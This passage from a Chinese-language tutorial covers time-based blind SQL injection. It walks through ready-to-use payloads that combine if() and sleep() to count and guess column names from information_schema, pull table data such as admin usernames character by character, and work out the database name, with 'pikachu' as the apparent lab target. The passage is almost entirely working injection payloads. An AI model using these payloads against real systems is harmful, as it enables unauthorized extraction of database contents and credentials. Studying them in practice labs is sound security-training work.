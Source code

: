 ```sql
and if((select count(column_name) from information_schema.columns where table_name='表名')=个数,sleep(5),0)
```

第二步：判断某个列名的长度 (以便逐位猜列名的数据)

```sql
and if((select length(column_name) from information_schema.columns where table_name='表名' limit n,1)=长度,sleep(5),0)
```

第三步：逐位猜列名**(下述有另一种多重括号写法)**

```sql
and if((select ascii(substr(column_name,位数,1)) from information_schema.columns where table_name='表名' limit n,1)=ascii码,sleep(5),0)
```

##### 猜数据

第一步：判断数据的数量 (以便逐个猜数据)

```sql
and if((select count(列名) from 表名)=个数,sleep(5),0)
```

第二步：判断某个数据的长度 (以便逐位猜数据)

```sql
and if((select length(username) from admin limit 0,1)=5,sleep(5),0)
```

第三步：逐位猜数据**(下述有另一种多重括号写法)**

```sql
and if((select ascii(substr(username,1,1)) from admin limit 0,1)=97,sleep(5),0)
```

#### 注入语句写法详解

##### 猜解数据库名长度详解

```sql
select * from member where id=1 and sleep(if(length(database())=8,5,0));
//如果延时5秒，则说明数据库名长度为8；如果延时0秒，则说明数据库名长度不是8
```
##### 猜解数据库名字符详解

###### 一次猜解全部位置上字符

```sql
select * from member where id=1 and sleep(if((database()='pikachu'),5,0));//注意括号
//如果延时5秒，则说明数据库名就是pikachu；如果延时0秒，则说明数据库名不是pikachu
```

###### 一次猜解指定1个位置上字符

```sql
select * from member where id=1 and sleep(if((mid(database(),1,1)='p'),5,0));  //if有三个参数，注意括号
//如果延时5秒，则说明数据库名第1位是p；如果延时0秒，则说明数据库名第1位不是p
```
